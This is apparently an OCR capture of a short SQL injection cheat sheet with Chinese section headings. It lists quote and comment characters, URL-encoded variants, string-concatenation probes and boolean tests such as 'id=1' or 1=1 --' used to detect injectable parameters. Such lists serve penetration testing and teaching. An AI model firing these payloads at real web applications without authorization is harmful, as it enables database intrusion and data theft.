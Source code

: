   #### 简单字符
	'
	%27
	"
	%22
	#
	%23
	;
	%3B
	)
	Wildcard (*)
	&apos;  # required for XML content
  #### 编码
	%%2727
	%25%27
  #### 合并字符
	`+HERP
	'||'DERP
	'+'herp
	' 'DERP
	'%20'HERP
	'%2B'HERP
  #### 逻辑测试
	page.asp?id=1 or 1=1 -- true
	page.asp?id=1' or 1=1 -- true
	page.asp?id=1" or 1=1 -- true
	page.asp?id=1 and 1=2 -- false